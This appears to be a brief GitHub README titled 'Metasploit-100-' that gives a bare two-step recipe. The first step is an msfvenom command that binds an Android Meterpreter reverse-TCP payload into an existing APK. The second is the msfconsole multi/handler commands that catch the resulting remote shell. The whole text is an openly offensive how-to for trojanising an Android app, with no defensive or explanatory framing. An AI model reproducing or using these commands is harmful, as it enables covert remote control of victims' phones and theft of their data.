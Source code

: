 # Metasploit-100-

## paylod:-


msfvenom -x (bind apk name) -p android/meterpreter/reverse_tcp LHOST= LPORT= R > /sdcard/apk_name.apk




## RAN WAY


msfconsole

use multi/handler 

set payload android/meterpreter/reverse_tcp 

set lhost (your ip) 

set lport (port number)

run
